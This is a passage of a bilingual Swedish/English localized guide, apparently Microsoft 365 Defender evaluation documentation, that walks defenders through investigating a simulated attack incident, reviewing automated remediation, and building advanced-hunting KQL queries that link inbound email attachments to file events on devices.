<span data-ttu-id="e6d23-212">Observera att aviseringsinformationen omfattar den externa IP-adressen – en indikator som du kan använda som pivot för att utvidga undersökningen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-212">Notice that the alert details include the external IP address—an indicator that you can use as a pivot to expand investigation.</span></span>

<span data-ttu-id="e6d23-213">Välj IP-adressen i aviseringsprocessträdet för att visa sidan med IP-adressinformation.</span><span class="sxs-lookup"><span data-stu-id="e6d23-213">Select the IP address in the alert process tree to view the IP address details page.</span></span>


<span data-ttu-id="e6d23-215">På följande bild visas sidan med den valda information om IP-adress (du klickar på IP-adressen i aviseringsprocessträdet).</span><span class="sxs-lookup"><span data-stu-id="e6d23-215">The following figure displays the selected IP Address details page (clicking on IP address in the Alert process tree).</span></span>
<span data-ttu-id="e6d23-216"></span><span class="sxs-lookup"><span data-stu-id="e6d23-216"></span></span>

#### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a><span data-ttu-id="e6d23-217">Avisering: Användar- och IP-adressre reconnaissance (SMB) (Källa: Microsoft Defender för identitet)</span><span class="sxs-lookup"><span data-stu-id="e6d23-217">Alert: User and IP address reconnaissance (SMB) (Source: Microsoft Defender for Identity)</span></span>

<span data-ttu-id="e6d23-218">Uppräkning med SMB-protokollet (Server Message Block) gör det möjligt för attacker att hämta inloggningsinformation för senaste användare som hjälper dem att flytta mellan nätverk för att komma åt ett visst känsligt konto.</span><span class="sxs-lookup"><span data-stu-id="e6d23-218">Enumeration using Server Message Block (SMB) protocol enables attackers to get recent user logon information that helps them move laterally through the network to access a specific sensitive account.</span></span>

<span data-ttu-id="e6d23-219">Vid den här identifieringen utlöses en avisering när SMB-sessionuppräkning körs mot en domänkontrollant.</span><span class="sxs-lookup"><span data-stu-id="e6d23-219">In this detection, an alert is triggered when the SMB session enumeration runs against a domain controller.</span></span>


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a><span data-ttu-id="e6d23-221">Granska tidslinjen för enheten [Microsoft Defender för Slutpunkt]</span><span class="sxs-lookup"><span data-stu-id="e6d23-221">Review the device timeline [Microsoft Defender for Endpoint]</span></span>

<span data-ttu-id="e6d23-222">När du utforskat de olika aviseringarna i den här incidenten går du tillbaka till sidan som du undersöker tidigare.</span><span class="sxs-lookup"><span data-stu-id="e6d23-222">After exploring the various alerts in this incident, navigate back to the incident page you investigated earlier.</span></span> <span data-ttu-id="e6d23-223">Välj fliken **Enheter** på incidentsidan om du vill granska enheterna som är inblandade i den här händelsen enligt uppgifter från Microsoft Defender för Endpoint och Microsoft Defender för identitet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-223">Select the **Devices** tab in the incident page to review the devices involved in this incident as reported by Microsoft Defender for Endpoint and Microsoft Defender for Identity.</span></span>

<span data-ttu-id="e6d23-224">Välj namnet på enheten där attacken utfördes för att öppna entitetssidan för den specifika enheten.</span><span class="sxs-lookup"><span data-stu-id="e6d23-224">Select the name of the device where the attack was conducted, to open the entity page for that specific device.</span></span> <span data-ttu-id="e6d23-225">På den sidan kan du se aviseringar som utlöstes och relaterade händelser.</span><span class="sxs-lookup"><span data-stu-id="e6d23-225">In that page, you can see alerts that were triggered and related events.</span></span>

<span data-ttu-id="e6d23-226">Välj fliken **Tidslinje** för att öppna enhetens tidslinje och visa alla händelser och beteenden som observerats på enheten i kronologisk ordning, mellankopplade med aviseringarna upphöjda.</span><span class="sxs-lookup"><span data-stu-id="e6d23-226">Select the **Timeline** tab to open the device timeline and view all events and behaviors observed on the device in chronological order, interspersed with the alerts raised.</span></span>


<span data-ttu-id="e6d23-228">Om du utökar några av de mer intressanta beteendenna får du användbar information, till exempel processträd.</span><span class="sxs-lookup"><span data-stu-id="e6d23-228">Expanding some of the more interesting behaviors provides useful details, such as process trees.</span></span>

<span data-ttu-id="e6d23-229">Du kan till exempel rulla nedåt tills du hittar den aviseringshändelse **som misstänkt processinställing har observerats.**</span><span class="sxs-lookup"><span data-stu-id="e6d23-229">For example, scroll down until you find the alert event **Suspicious process injection observed**.</span></span> <span data-ttu-id="e6d23-230">Väljpowershell.exe som matas **in notepad.exe-processhändelsen** nedanför den för att visa hela  processträdet för det här beteendet i diagrammet Händelseenheter i sidofönstret.</span><span class="sxs-lookup"><span data-stu-id="e6d23-230">Select the **powershell.exe injected to notepad.exe process** event below it, to display the full process tree for this behavior under the **Event entities** graph on the side pane.</span></span> <span data-ttu-id="e6d23-231">Använd sökfältet för filtrering om det behövs.</span><span class="sxs-lookup"><span data-stu-id="e6d23-231">Use the search bar for filtering if necessary.</span></span>


### <a name="review-the-user-information-microsoft-cloud-app-security"></a><span data-ttu-id="e6d23-233">Granska användarinformationen [Microsoft Cloud App Security]</span><span class="sxs-lookup"><span data-stu-id="e6d23-233">Review the user information [Microsoft Cloud App Security]</span></span>

<span data-ttu-id="e6d23-234">På incidentsidan väljer du fliken **Användare för** att visa listan över användare som är inblandade i attacken.</span><span class="sxs-lookup"><span data-stu-id="e6d23-234">On the incident page, select the **Users** tab to display the list of users involved in the attack.</span></span> <span data-ttu-id="e6d23-235">Tabellen innehåller ytterligare information om varje användare, inklusive varje användares **undersökningsprioriteringspoäng.**</span><span class="sxs-lookup"><span data-stu-id="e6d23-235">The table contains additional information about each user, including each user's **Investigation Priority** score.</span></span>

<span data-ttu-id="e6d23-236">Välj användarnamnet för att öppna användarens profilsida där vidare undersökning kan genomföras.</span><span class="sxs-lookup"><span data-stu-id="e6d23-236">Select the user name to open the user's profile page where further investigation can be conducted.</span></span> <span data-ttu-id="e6d23-237">[Läs mer om att undersöka riskfyllda användare.](/cloud-app-security/tutorial-ueba#identify)</span><span class="sxs-lookup"><span data-stu-id="e6d23-237">[Read more about investigating risky users](/cloud-app-security/tutorial-ueba#identify).</span></span>


## <a name="automated-investigation-and-remediation"></a><span data-ttu-id="e6d23-239">Automatiserad undersökning och åtgärder</span><span class="sxs-lookup"><span data-stu-id="e6d23-239">Automated investigation and remediation</span></span>

> [!NOTE]
><span data-ttu-id="e6d23-240">Innan vi går igenom den här simuleringen kan du se följande video för att bekanta dig med vad automatiserat självrektan är, var du hittar det i portalen och hur det kan vara till hjälp i dina säkerhetsåtgärder:</span><span class="sxs-lookup"><span data-stu-id="e6d23-240">Before we walk you through this simulation, watch the following video to get familiar with what automated self-healing is, where to find it in the portal, and how it can help in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

<span data-ttu-id="e6d23-241">Gå tillbaka till incidenten i Microsoft 365 Säkerhetscenter-portalen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-241">Navigate back to the incident in the Microsoft 365 Security Center portal.</span></span> <span data-ttu-id="e6d23-242">På **fliken** Undersökningar på sidan **Incident** visas de automatiserade undersökningar som utlöstes av Microsoft Defender för identitet och Microsoft Defender för slutpunkt.</span><span class="sxs-lookup"><span data-stu-id="e6d23-242">The **Investigations** tab in the **Incident** page shows the automated investigations that were triggered by Microsoft Defender for Identity and Microsoft Defender for Endpoint.</span></span> <span data-ttu-id="e6d23-243">I skärmbilden nedan visas endast den automatiska undersökning som utlösts av Defender för Endpoint.</span><span class="sxs-lookup"><span data-stu-id="e6d23-243">The screenshot below displays only the automated investigation triggered by Defender for Endpoint.</span></span> <span data-ttu-id="e6d23-244">Som standard åtgärdar Defender för Slutpunkt automatiskt artefakterna som hittats i kön, vilket kräver åtgärd.</span><span class="sxs-lookup"><span data-stu-id="e6d23-244">By default, Defender for Endpoint automatically remediates the artifacts found in the queue, which requires remediation.</span></span>


<span data-ttu-id="e6d23-246">Markera varningsmeddelandet som utlöste en undersökning för att öppna **informationssidan** Undersökning.</span><span class="sxs-lookup"><span data-stu-id="e6d23-246">Select the alert that triggered an investigation to open the **Investigation details** page.</span></span> <span data-ttu-id="e6d23-247">Du ser följande information:</span><span class="sxs-lookup"><span data-stu-id="e6d23-247">You'll see the following details:</span></span>

- <span data-ttu-id="e6d23-248">En avisering som utlöste den automatiska undersökningen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-248">Alert(s) that triggered the automated investigation.</span></span>
- <span data-ttu-id="e6d23-249">Påverkade användare och enheter.</span><span class="sxs-lookup"><span data-stu-id="e6d23-249">Impacted users and devices.</span></span> <span data-ttu-id="e6d23-250">Om indikatorerna finns på ytterligare enheter visas även dessa ytterligare enheter.</span><span class="sxs-lookup"><span data-stu-id="e6d23-250">If indicators are found on additional devices, these additional devices will be listed as well.</span></span>
- <span data-ttu-id="e6d23-251">Lista med bevis.</span><span class="sxs-lookup"><span data-stu-id="e6d23-251">List of evidence.</span></span> <span data-ttu-id="e6d23-252">Enheter som hittades och analyserades, till exempel filer, processer, tjänster, drivrutiner och nätverksadresser.</span><span class="sxs-lookup"><span data-stu-id="e6d23-252">The entities found and analyzed, such as files, processes, services, drivers, and network addresses.</span></span> <span data-ttu-id="e6d23-253">Dessa enheter analyseras för möjliga relationer till aviseringen och klassificeras som envärd eller skadlig.</span><span class="sxs-lookup"><span data-stu-id="e6d23-253">These entities are analyzed for possible relationships to the alert and rated as benign or malicious.</span></span>
- <span data-ttu-id="e6d23-254">Hot hittades.</span><span class="sxs-lookup"><span data-stu-id="e6d23-254">Threats found.</span></span> <span data-ttu-id="e6d23-255">Kända hot som påträffas under undersökningen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-255">Known threats that are found during the investigation.</span></span>

> [!NOTE]
> <span data-ttu-id="e6d23-256">Beroende på tidpunkten kan den automatiska undersökningen fortfarande köras.</span><span class="sxs-lookup"><span data-stu-id="e6d23-256">Depending on timing, the automated investigation might still be running.</span></span> <span data-ttu-id="e6d23-257">Vänta några minuter på att processen slutförs innan du samlar in och analyserar bevisen och granskar resultaten.</span><span class="sxs-lookup"><span data-stu-id="e6d23-257">Wait a few minutes for the process to complete before you collect and analyze the evidence and review the results.</span></span> <span data-ttu-id="e6d23-258">Uppdatera **informationssidan Undersökning** för att få de senaste resultaten.</span><span class="sxs-lookup"><span data-stu-id="e6d23-258">Refresh the **Investigation details** page to get the latest findings.</span></span>


<span data-ttu-id="e6d23-260">Under den automatiska undersökningen identifierade Microsoft Defender för Endpoint notepad.exe-processen, som matades in som en av artefakterna som kräver åtgärd.</span><span class="sxs-lookup"><span data-stu-id="e6d23-260">During the automated investigation, Microsoft Defender for Endpoint identified the notepad.exe process, which was injected as one of the artifacts requiring remediation.</span></span> <span data-ttu-id="e6d23-261">Defender för Slutpunkt stoppar automatiskt den misstänkta processinjiceringen som en del av den automatiska åtgärd.</span><span class="sxs-lookup"><span data-stu-id="e6d23-261">Defender for Endpoint automatically stops the suspicious process injection as part of the automated remediation.</span></span>

<span data-ttu-id="e6d23-262">Du kan se <i>notepad.exe</i> bort från listan med körningsprocesser på testenheten.</span><span class="sxs-lookup"><span data-stu-id="e6d23-262">You can see <i>notepad.exe</i> disappear from the list of running processes on the test device.</span></span>

## <a name="resolve-the-incident"></a><span data-ttu-id="e6d23-263">Lösa problemet</span><span class="sxs-lookup"><span data-stu-id="e6d23-263">Resolve the incident</span></span>

<span data-ttu-id="e6d23-264">Stäng händelsen när undersökningen har slutförts och bekräftat att du vill åtgärda den.</span><span class="sxs-lookup"><span data-stu-id="e6d23-264">After the investigation is complete and confirmed to be remediated, close the incident.</span></span>

<span data-ttu-id="e6d23-265">Välj **Hantera incident**.</span><span class="sxs-lookup"><span data-stu-id="e6d23-265">Select **Manage incident**.</span></span> <span data-ttu-id="e6d23-266">Ange statusen Lös **incidenten** och välj relevant klassificering.</span><span class="sxs-lookup"><span data-stu-id="e6d23-266">Set the status to **Resolve incident** and select the relevant classification.</span></span>

<span data-ttu-id="e6d23-267">När problemet har lösts stängs alla associerade aviseringar i Microsoft 365 säkerhetscenter och i relaterade portaler.</span><span class="sxs-lookup"><span data-stu-id="e6d23-267">When the incident is resolved, it closes all of the associated alerts in Microsoft 365 Security Center and in the related portals.</span></span>



<span data-ttu-id="e6d23-269">Då avslutas attackberäkningen för incidenthantering och automatiserad undersökning och åtgärdsscenarier.</span><span class="sxs-lookup"><span data-stu-id="e6d23-269">This wraps up the attack simulation for the incident management and automated investigation and remediation scenarios.</span></span> <span data-ttu-id="e6d23-270">Nästa simulering tar dig via förebyggande hot efter potentiellt skadliga filer.</span><span class="sxs-lookup"><span data-stu-id="e6d23-270">The next simulation will take you through proactive threat hunting for potentially malicious files.</span></span>

## <a name="advanced-hunting-scenario"></a><span data-ttu-id="e6d23-271">Avancerat sökningsscenario</span><span class="sxs-lookup"><span data-stu-id="e6d23-271">Advanced hunting scenario</span></span>

> [!NOTE]
> <span data-ttu-id="e6d23-272">Innan vi går igenom simuleringen tittar du på följande video för att förstå avancerade koncept för sökning, se var du hittar det i portalen och veta hur det kan hjälpa dig i dina säkerhetsåtgärder:</span><span class="sxs-lookup"><span data-stu-id="e6d23-272">Before we walk you through the simulation, watch the following video to understand the advanced hunting concepts, see where you can find it in the portal, and know how it can help you in your security operations:</span></span>

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a><span data-ttu-id="e6d23-273">Krav på produktionsmiljö</span><span class="sxs-lookup"><span data-stu-id="e6d23-273">Hunting environment requirements</span></span>

<span data-ttu-id="e6d23-274">Det krävs en enda intern postlåda och enhet för det här scenariot.</span><span class="sxs-lookup"><span data-stu-id="e6d23-274">There's a single internal mailbox and device required for this scenario.</span></span> <span data-ttu-id="e6d23-275">Du måste också ha ett externt e-postkonto för att skicka testmeddelandet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-275">You'll also need an external email account to send the test message.</span></span>

1. <span data-ttu-id="e6d23-276">Kontrollera att klientorganisationen har [aktiverat Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span><span class="sxs-lookup"><span data-stu-id="e6d23-276">Verify that your tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>
2. <span data-ttu-id="e6d23-277">Identifiera en målpostlåda som ska användas för att ta emot e-post.</span><span class="sxs-lookup"><span data-stu-id="e6d23-277">Identify a target mailbox to be used for receiving email.</span></span>
    <span data-ttu-id="e6d23-278">a.</span><span class="sxs-lookup"><span data-stu-id="e6d23-278">a.</span></span> <span data-ttu-id="e6d23-279">Den här postlådan måste övervakas av Microsoft Defender för Office 365 b.</span><span class="sxs-lookup"><span data-stu-id="e6d23-279">This mailbox must be monitored by Microsoft Defender for Office 365 b.</span></span> <span data-ttu-id="e6d23-280">Enheten från krav 3 måste få åtkomst till den här postlådan</span><span class="sxs-lookup"><span data-stu-id="e6d23-280">The device from requirement 3 needs to access this mailbox</span></span>
3. <span data-ttu-id="e6d23-281">Konfigurera en testenhet: a.</span><span class="sxs-lookup"><span data-stu-id="e6d23-281">Configure a test device: a.</span></span> <span data-ttu-id="e6d23-282">Kontrollera att du använder Windows 10 version 1903 eller senare.</span><span class="sxs-lookup"><span data-stu-id="e6d23-282">Make sure you are using Windows 10 version 1903 or later version.</span></span>
    <span data-ttu-id="e6d23-283">b.</span><span class="sxs-lookup"><span data-stu-id="e6d23-283">b.</span></span> <span data-ttu-id="e6d23-284">Anslut testenheten till testdomänen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-284">Join the test device to the test domain.</span></span>
    <span data-ttu-id="e6d23-285">c.</span><span class="sxs-lookup"><span data-stu-id="e6d23-285">c.</span></span> <span data-ttu-id="e6d23-286">[Aktivera Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span><span class="sxs-lookup"><span data-stu-id="e6d23-286">[Turn on Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features).</span></span> <span data-ttu-id="e6d23-287">Om du har problem med att aktivera Windows Defender Antivirus kan du gå till det [här avsnittet om felsökning.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="e6d23-287">If you are having trouble enabling Windows Defender Antivirus, see [this troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
    <span data-ttu-id="e6d23-288">d.</span><span class="sxs-lookup"><span data-stu-id="e6d23-288">d.</span></span> <span data-ttu-id="e6d23-289">[Gå till Microsoft Defender för Slutpunkt](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span><span class="sxs-lookup"><span data-stu-id="e6d23-289">[Onboard to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

### <a name="run-the-simulation"></a><span data-ttu-id="e6d23-290">Kör simuleringen</span><span class="sxs-lookup"><span data-stu-id="e6d23-290">Run the simulation</span></span>

1. <span data-ttu-id="e6d23-291">Från ett externt e-postkonto skickar du ett e-postmeddelande till postlådan som identifierats i steg 2 i avsnittet för testmiljökrav.</span><span class="sxs-lookup"><span data-stu-id="e6d23-291">From an external email account, send an email to the mailbox identified in step 2 of the test environment requirements section.</span></span> <span data-ttu-id="e6d23-292">Inkludera en bifogad fil som tillåts genom befintliga principer för e-postfilter.</span><span class="sxs-lookup"><span data-stu-id="e6d23-292">Include an attachment that will be allowed through any existing email filter policies.</span></span> <span data-ttu-id="e6d23-293">Filen behöver inte vara skadlig eller körbar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-293">This file does not need to be malicious or an executable.</span></span> <span data-ttu-id="e6d23-294">Föreslagna filtyper är <i>.pdf, </i> <i>.exe</i> (om det är tillåtet) Office dokument, till exempel en Word-fil.</span><span class="sxs-lookup"><span data-stu-id="e6d23-294">Suggested file types are <i>.pdf</i>, <i>.exe</i> (if allowed), or Office document such as a Word file.</span></span>
2. <span data-ttu-id="e6d23-295">Öppna det skickade e-postmeddelandet från enheten som konfigurerats enligt definitionen i steg 3 i avsnittet för testmiljökrav.</span><span class="sxs-lookup"><span data-stu-id="e6d23-295">Open the sent email from the device configured as defined in step 3 of the test environment requirements section.</span></span> <span data-ttu-id="e6d23-296">Öppna den bifogade filen eller spara den på enheten.</span><span class="sxs-lookup"><span data-stu-id="e6d23-296">Either open the attachment or save the file to the device.</span></span>

#### <a name="go-hunting"></a><span data-ttu-id="e6d23-297">Jaga</span><span class="sxs-lookup"><span data-stu-id="e6d23-297">Go hunting</span></span>

1. <span data-ttu-id="e6d23-298">Öppna security.microsoft.com portalen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-298">Open the security.microsoft.com portal.</span></span>

2. <span data-ttu-id="e6d23-299">Gå till **Sökning > Avancerad sökning.**</span><span class="sxs-lookup"><span data-stu-id="e6d23-299">Navigate to **Hunting > Advanced hunting**.</span></span>

   

3. <span data-ttu-id="e6d23-301">Skapa en fråga som börjar genom att samla e-posthändelser.</span><span class="sxs-lookup"><span data-stu-id="e6d23-301">Build a query that starts by gathering email events.</span></span>

   1. <span data-ttu-id="e6d23-302">I frågefönstret väljer du Nytt.</span><span class="sxs-lookup"><span data-stu-id="e6d23-302">From the query pane, select New.</span></span>

   1. <span data-ttu-id="e6d23-303">Dubbelklicka på tabellen EmailEvents i schemat.</span><span class="sxs-lookup"><span data-stu-id="e6d23-303">Double-click on the EmailEvents table from the schema.</span></span>

      ```console
      EmailEvents
      ```

   1. <span data-ttu-id="e6d23-304">Ändra tidsperioden till de senaste 24 timmarna.</span><span class="sxs-lookup"><span data-stu-id="e6d23-304">Change the time frame to the last 24 hours.</span></span> <span data-ttu-id="e6d23-305">Anta att e-postmeddelandet du skickade när du körde simuleringen ovan har varit under de senaste 24 timmarna, annars kan du ändra tidsperioden.</span><span class="sxs-lookup"><span data-stu-id="e6d23-305">Assuming the email you sent when you ran the simulation above was in the past 24 hours, otherwise change the time frame.</span></span>

      

   1. <span data-ttu-id="e6d23-308">Kör frågan.</span><span class="sxs-lookup"><span data-stu-id="e6d23-308">Run the query.</span></span> <span data-ttu-id="e6d23-309">Du kan få många resultat beroende på pilotens miljö.</span><span class="sxs-lookup"><span data-stu-id="e6d23-309">You may have many results depending on the environment for the pilot.</span></span>

      > [!NOTE]
      > <span data-ttu-id="e6d23-310">Se nästa steg för filtreringsalternativ för att begränsa dataretur.</span><span class="sxs-lookup"><span data-stu-id="e6d23-310">See the next step for filtering options to limit data return.</span></span>

      

        > [!NOTE]
        > <span data-ttu-id="e6d23-312">Avancerad sökning visar frågeresultat som tabelldata.</span><span class="sxs-lookup"><span data-stu-id="e6d23-312">Advanced hunting displays query results as tabular data.</span></span> <span data-ttu-id="e6d23-313">Du kan också välja att visa data i andra formattyper, till exempel diagram.</span><span class="sxs-lookup"><span data-stu-id="e6d23-313">You can also opt to view the data in other format types such as charts.</span></span>

   1. <span data-ttu-id="e6d23-314">Titta på resultaten och se om du kan identifiera e-postmeddelandet som du öppnade.</span><span class="sxs-lookup"><span data-stu-id="e6d23-314">Look at the results and see if you can identify the email you opened.</span></span> <span data-ttu-id="e6d23-315">Det kan ta upp till 2 timmar innan meddelandet dyker upp i avancerad sökning.</span><span class="sxs-lookup"><span data-stu-id="e6d23-315">It may take up to 2 hours for the message to show up in advanced hunting.</span></span> <span data-ttu-id="e6d23-316">Om e-postmiljön är stor och det finns många resultat kan du använda **alternativet Visa filter för** att hitta meddelandet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-316">If the email environment is large and there are many results, you might want to use the **Show Filters option** to find the message.</span></span>

      <span data-ttu-id="e6d23-317">I exemplet skickades e-postmeddelandet från ett Yahoo-konto.</span><span class="sxs-lookup"><span data-stu-id="e6d23-317">In the sample, the email was sent from a Yahoo account.</span></span> <span data-ttu-id="e6d23-318">Klicka på **+** ikonen bredvid **yahoo.com** under avsnittet SenderFromDomain och klicka sedan på **Apply** (använd) för att lägga till den valda domänen i frågan.</span><span class="sxs-lookup"><span data-stu-id="e6d23-318">Click the **+** icon beside **yahoo.com** under the SenderFromDomain section and then click **Apply** to add the selected domain to the query.</span></span> <span data-ttu-id="e6d23-319">Använd den domän eller det e-postkonto som användes för att skicka testmeddelandet i steg 1 i Kör simuleringen för att filtrera resultatet.</span><span class="sxs-lookup"><span data-stu-id="e6d23-319">Use the domain or email account that was used to send the test message in step 1 of Run the Simulation to filter your results.</span></span> <span data-ttu-id="e6d23-320">Kör frågan igen för att få ett mindre resultat inställt för att verifiera att meddelandet från simuleringen visas.</span><span class="sxs-lookup"><span data-stu-id="e6d23-320">Run the query again to get a smaller result set to verify that you see the message from the simulation.</span></span>

      

      ```console
      EmailEvents
      | where SenderMailFromDomain == "yahoo.com"
      ```

   1. <span data-ttu-id="e6d23-323">Klicka på de resulterande raderna från frågan så att du kan granska posten.</span><span class="sxs-lookup"><span data-stu-id="e6d23-323">Click the resulting rows from the query so you can inspect the record.</span></span>

      

4. <span data-ttu-id="e6d23-325">Nu när du har kontrollerat att du kan se e-postmeddelandet kan du lägga till ett filter för de bifogade filerna.</span><span class="sxs-lookup"><span data-stu-id="e6d23-325">Now that you have verified that you can see the email, add a filter for the attachments.</span></span> <span data-ttu-id="e6d23-326">Fokusera på alla e-postmeddelanden med bifogade filer i miljön.</span><span class="sxs-lookup"><span data-stu-id="e6d23-326">Focus on all emails with attachments in the environment.</span></span> <span data-ttu-id="e6d23-327">I det här scenariot ska du fokusera på inkommande e-postmeddelanden, inte på dem som skickas från din miljö.</span><span class="sxs-lookup"><span data-stu-id="e6d23-327">For this scenario, focus on inbound emails, not those that are being sent out from your environment.</span></span> <span data-ttu-id="e6d23-328">Ta bort eventuella filter som du har lagt till för att hitta meddelandet och lägg till "| där **AttachmentCount > 0** och **EmailDirection**  ==  **"Inbound""**</span><span class="sxs-lookup"><span data-stu-id="e6d23-328">Remove any filters you have added to locate your message and add "| where **AttachmentCount > 0** and **EmailDirection** == **"Inbound""**</span></span>

   <span data-ttu-id="e6d23-329">I följande fråga visas resultatet med en kortare lista än den första frågan för alla e-posthändelser:</span><span class="sxs-lookup"><span data-stu-id="e6d23-329">The following query will show you the result with a shorter list than your initial query for all email events:</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   ```

5. <span data-ttu-id="e6d23-330">Ta sedan med information om den bifogade filen (t.ex. filnamn, hash-filer) i resultatuppsättningen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-330">Next, include the information about the attachment (such as: file name, hashes) to your result set.</span></span> <span data-ttu-id="e6d23-331">Det gör du genom att koppla **tabellen EmailAttachmentInfo.**</span><span class="sxs-lookup"><span data-stu-id="e6d23-331">To do so, join the **EmailAttachmentInfo** table.</span></span> <span data-ttu-id="e6d23-332">De gemensamma fälten att använda för att ansluta, i det här fallet **NetworkMessageId** och **RecipientObjectId.**</span><span class="sxs-lookup"><span data-stu-id="e6d23-332">The common fields to use for joining, in this case are **NetworkMessageId** and **RecipientObjectId**.</span></span>

   <span data-ttu-id="e6d23-333">Följande fråga innehåller även ytterligare en rad | **project-rename EmailTimestamp=Timestamp**" som hjälper till att identifiera vilken tidsstämpel som var relaterad till e-postmeddelandet kontra tidsstämplar relaterade till filåtgärder som du ska lägga till i nästa steg.</span><span class="sxs-lookup"><span data-stu-id="e6d23-333">The following query also includes an additional line "| **project-rename EmailTimestamp=Timestamp**" that'll help identify which timestamp was related to the email versus timestamps related to file actions that you'll add in the next step.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   ```

6. <span data-ttu-id="e6d23-334">Använd sedan **SHA256-värdet** från tabellen **EmailAttachmentInfo** för att hitta **DeviceFileEvents** (filåtgärder som hände på slutpunkten) för den hashtaggen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-334">Next, use the **SHA256** value from the **EmailAttachmentInfo** table to find **DeviceFileEvents** (file actions that happened on the endpoint) for that hash.</span></span> <span data-ttu-id="e6d23-335">Det vanliga fältet är SHA256-hash för den bifogade filen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-335">The common field here will be the SHA256 hash for the attachment.</span></span>

   <span data-ttu-id="e6d23-336">Den resulterande tabellen innehåller nu information från slutpunkten (Microsoft Defender för slutpunkt), till exempel enhetsnamn, vilken åtgärd som gjordes (i detta fall filtrerad för att endast inkludera FileCreated-händelser) och var filen lagrades.</span><span class="sxs-lookup"><span data-stu-id="e6d23-336">The resulting table now includes details from the endpoint (Microsoft Defender for Endpoint) such as device name, what action was done (in this case, filtered to only include FileCreated events), and where the file was stored.</span></span> <span data-ttu-id="e6d23-337">Kontonamnet som är kopplat till processen inkluderas också.</span><span class="sxs-lookup"><span data-stu-id="e6d23-337">The account name associated with the process will also be included.</span></span>

   ```console
   EmailEvents
   | where AttachmentCount > 0 and EmailDirection == "Inbound"
   | project-rename EmailTimestamp=Timestamp
   | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
   | join DeviceFileEvents on SHA256
   | where ActionType == "FileCreated"
   ```

   <span data-ttu-id="e6d23-338">Nu har du skapat en fråga som identifierar alla inkommande e-postmeddelanden där användaren öppnade eller sparade den bifogade filen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-338">You've now created a query that'll identify all inbound emails where the user opened or saved the attachment.</span></span> <span data-ttu-id="e6d23-339">Du kan också förfina den här frågan för att filtrera fram specifika avsändardomäner, filstorlekar, filtyper och så vidare.</span><span class="sxs-lookup"><span data-stu-id="e6d23-339">You can also refine this query to filter for specific sender domains, file sizes, file types, and so on.</span></span>

7. <span data-ttu-id="e6d23-340">Funktioner är en särskild typ av koppling, som gör att du kan hämta mer TI-data om en fil, t.ex. dess utforskar- och utfärdareinformation. Om du vill ha mer information om filen kan du använda funktionen **FileProfile()berikande:**</span><span class="sxs-lookup"><span data-stu-id="e6d23-340">Functions are a special kind of join, which let you pull more TI data about a file like its prevalence, signer and issuer info, etc. To get more details on the file, use the **FileProfile()** function enrichment:</span></span>

    ```console
    EmailEvents
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```

#### <a name="create-a-detection"></a><span data-ttu-id="e6d23-341">Skapa en identifiering</span><span class="sxs-lookup"><span data-stu-id="e6d23-341">Create a detection</span></span>

<span data-ttu-id="e6d23-342">När du har skapat en fråga som identifierar  information som du vill få aviseringar om om de skulle hända i framtiden, kan du skapa en anpassad identifiering från frågan.</span><span class="sxs-lookup"><span data-stu-id="e6d23-342">Once you have created a query that identifies information that you'd like to **get alerted** about if they happen in the future, you can create a custom detection from the query.</span></span>

<span data-ttu-id="e6d23-343">Anpassade identifieringar kör frågan enligt den frekvens du har angett, och resultaten av frågorna skapar säkerhetsvarningar baserat på de påverkade tillgångar du väljer.</span><span class="sxs-lookup"><span data-stu-id="e6d23-343">Custom detections will run the query according to the frequency you set, and the results of the queries will create security alerts, based on the impacted assets you choose.</span></span> <span data-ttu-id="e6d23-344">Dessa aviseringar är korrelerade till incidenter och kan vara triangelde som alla andra säkerhetsvarningar som genereras av någon av produkterna.</span><span class="sxs-lookup"><span data-stu-id="e6d23-344">Those alerts will be correlated to incidents and can be triaged as any other security alert generated by one of the products.</span></span>

1. <span data-ttu-id="e6d23-345">Ta bort rad 7 och 8 på frågesidan som lades till i steg 7 i Gå i instruktionerna för sökning och klicka **på Skapa identifieringsregel.**</span><span class="sxs-lookup"><span data-stu-id="e6d23-345">On the query page, remove lines 7 and 8 that were added in step 7 of the Go hunting instructions and click **Create detection rule**.</span></span>

   

   > [!NOTE]
